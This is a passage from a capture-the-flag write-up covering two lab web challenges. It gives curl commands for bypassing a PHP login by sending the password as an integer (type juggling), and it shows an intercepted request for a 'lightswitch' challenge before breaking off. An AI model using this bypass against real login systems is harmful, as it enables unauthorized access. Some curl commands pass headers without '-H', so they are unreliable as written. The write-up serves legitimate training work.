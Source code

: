```php
    } else {
        throw new \Exception("Password authentication failed...", 1);
    }
} catch (\Exception $e) {
    echo json_encode(['error' => ['message' => $e->getMessage()]]);
}
?>
```

To solve this flag we have to firstly bypass the first lines of the code showed in the page, we do it with curl setting up a post request with both headers, just like this:

```bash
curl -i "Access-Control-Allow-Origin: *" "Content-Type: Application/json"
```

This bypass the first lines cause now the post isnt empty, now to get the flag we need to bypass the authenticate request, the name of the challenge is a hint, we have to juggl the php code changing the value of the password from string to an integer, the entire command would look like this:

```bash
curl -i "Access-Control-Allow-Origin: *" "Content-Type: Application/json" -d '{"username":"yourusername","password":1}' -X POST http://10.0.41.14:1337
```

As we can see, the password value is not an string, instead of it we set it up as an integer, if we send this petition to the website a number of times we will bypass it surely:

![[Pasted image 20241008005235.png]]

# lightswitch
To solve this challenge we can intercept the trafic via burpsuite, it show us this request:

```
POST /lightswitch.php HTTP/1.1
Host: 10.0.41.11:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept: */*
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 31
Origin: http://10.0.41.11:1337
Connection: keep-alive
Referer: http://10.0.41.11:1337/
Priority: u=0

username=invalid&time=0&state=off
```

And will receive this pop up in the website:

![[Pasted image 20241008011358.png]]
